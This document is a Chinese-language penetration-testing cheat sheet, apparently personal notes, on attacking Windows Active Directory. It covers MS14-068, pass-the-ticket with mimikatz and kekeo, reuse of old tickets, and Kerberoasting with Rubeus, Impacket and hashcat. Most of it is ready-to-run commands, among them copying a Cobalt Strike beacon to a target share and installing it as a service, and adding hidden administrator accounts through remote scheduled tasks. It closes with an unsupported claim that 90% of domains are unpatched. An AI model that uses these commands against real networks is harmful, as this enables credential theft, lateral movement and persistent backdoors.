 # PTT(票据传递)
**1.漏洞-MS14-068(管理员权限)-利用漏洞新生成的身份票据尝试认证**
漏洞-MS14-068是密钥分发中心(KDC)服务中的windows漏洞
![](vx_images/415024933194871.png)
CS中实现:shell 命令
获取sid值:
```
shell whoami/user
```
生成票据文件:
```
shell ms14-068.exe -u webadmin@god.org -s (sid) -d (ip) -p (明文密码)
```
清楚票据连接:
```
shell klist purge
```
内存导入票据:
```
minikatz kerberos::ptc TGT_webadmin@god.rog.ccache
```
连接目标上线:(计划任务)
```
shell dir \\(目标计算机名)\c$
shell net use \\(....)\c$
copy beacon.exe \\(....)\c$
sc \\(...) create bindshell binpath "c:\beacon.exe"
sc \\(...) create start bindshell
```
成因:目标是否存在ms14-068

**2.利用NTML**
![](vx_images/1905577705258.png)
生成票据
```
shell kekeo "tgt::ask /user:administrator /domain:god.org /ntlm:e2b475c11da2a0748290d87aa966c327" "exit"
```
导入票据
```
kerberos::ptt ___administrator@god.org.kirbi
```
查看票据
```
klist  # 系统命令查看票据
或
kerberos::list  # mimikatz 查看票据
```
利用票据连接
```
# 创建一次性计划任务执行命令
schtasks /create /s <TARGET_IP> /tn "TempTask" /sc once /st 00:00 /ru System /tr "cmd.exe /c <COMMAND>" /f

# 立即运行任务
schtasks /run /s <TARGET_IP> /tn "TempTask"

在目标创建后门用户
schtasks /create /s 192.168.1.10 /tn "Backdoor" /sc once /st 00:00 /ru System `
  /tr "net user Hacker P@ssw0rd /add && net localgroup administrators Hacker /add" /f

schtasks /run /s 192.168.1.10 /tn "Backdoor"
```



**3.利用历史遗留**利用转发拿免费门票
历史票据有效期通常为 ​10小时

检查当前票据
```
klist  # 系统命令查看票据缓存
或
mimikatz # kerberos::list  # 使用 mimikatz 查看详情
```
注入历史票据
```
mimikatz # kerberos::ptt "C:\Legacy_Ticket\backup_admin.kirbi"
```
通过计划任务执行横向移动
```
# 在目标主机创建管理员后门账户
schtasks /create /s 192.168.10.5 /u administrator /tn "SystemUpdate" `
  /sc weekly /tr "net user pentest P@ssw0rd123! /add && net localgroup administrators pentest /add" /f

schtasks /run /s 192.168.10.5 /u administrator /tn "SystemUpdate"
```

**4.Rubeus&impacket(高权限,需Ticket)-利用通讯的加密类型票据进行爆破明文**
攻击本质​
通过 ​合法请求服务票据(TGS)​​ → 抓取使用 ​服务账户密码加密的票据​ → ​离线爆破加密密钥​ → 获取服务账户明文密码

kerbroas攻击条件
```
域成员权限​：拥有域内任意用户（即使低权限）的账号/密码/NTLM
​SPN 服务存在​：域内存在注册了 SPN（服务主体名称）的服务账户
常见服务：MSSQL、HTTP、CIFS、Exchange 等
​弱密码账户​：服务账户设置了可爆破的弱口令（概率极高）
攻击过程 ​无需高权限，普通域用户即可操作！
```
Kerberoasting攻击利用:

探测SPN服务账户
```
# Windows (PowerShell)
Import-Module .\Rubeus.exe
Rubeus kerberoast /stats

# Linux (Impacket)
GetUserSPNs.py -dc-ip 192.168.1.1 god.org/user:Password123



output:
ServicePrincipalName : MSSQLSvc/db.god.org  
SamAccountName       : svc_sql  
PasswordLastSet      : 2024-01-15  
SupportedEncryption  : aes256-cts-hmac-sha1-96, rc4-hmac  # 重点关注RC4
```
请求服务票据
```
# 请求指定SPN的票据（强制RC4加密）
Rubeus kerberoast /spn:"MSSQLSvc/db.god.org" /tgtdeleg /rc4opsec /nowrap

获取加密票据
$krb5tgs$23$*svc_sql$GOD.ORG$MSSQLSvc/db.god.org* 
$B7E9F50EDC... # 完整RC4-HMAC密文
```
离线爆破票据
```
# 使用Hashcat爆破（需NVIDIA显卡加速）
hashcat -m 13100 -a 0 krb_tgs.txt rockyou.txt 

# 参数说明：
# -m 13100 = Kerberos TGS-REP (RC4加密类型)
# -a 0     = 字典攻击模式

或
# John the Ripper爆破（CPU模式）
john --format=krb5tgs --wordlist=passwords.txt krb_tgs.hash



结果:
$krb5tgs$23$...:Password!@# 
```

5.重写攻击
重写攻击依赖于协议设计漏洞（微软编号ADV220002），在打过补丁的域控环境下可能失效，但实战中 ​90%的域未修复此漏洞。